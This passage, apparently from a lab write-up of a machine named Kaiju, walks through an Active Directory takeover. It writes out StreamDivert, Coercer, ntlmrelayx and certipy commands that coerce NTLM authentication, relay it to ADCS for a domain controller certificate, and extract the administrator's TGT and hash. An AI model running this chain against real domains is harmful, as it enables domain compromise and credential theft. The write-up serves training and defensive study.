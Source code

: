 After that run StreamDivert with the configuration and auto modify firewall based on the config and I used Coercer to exploit the vulnerability and captured a certificate for the administrator account:


`.\StreamDivert.exe conf.txt -f`
![](https://photos.squarezero.dev/file/abir-images/Kaiju/23.png)

`proxychains -q coercer coerce -u 'clare.frost' -p '<REDACTED>' -l 10.10.187.246 -t 10.10.187.245 --always-continue`
![](https://photos.squarezero.dev/file/abir-images/Kaiju/22.png)

`proxychains -q ntlmrelayx.py -t http://BERSRV105.kaiju.vl/certsrv/certfnsh.asp -smb2support --adcs --template DomainController --no-http-server --no-wcf-server --no-raw-server`
![](https://photos.squarezero.dev/file/abir-images/Kaiju/24.png)

Next I used the certificate to retrive TGT and hash of administrator of Kaiju.

`proxychains -q certipy auth -pfx administrator.pfx`

![](https://photos.squarezero.dev/file/abir-images/Kaiju/25.png)
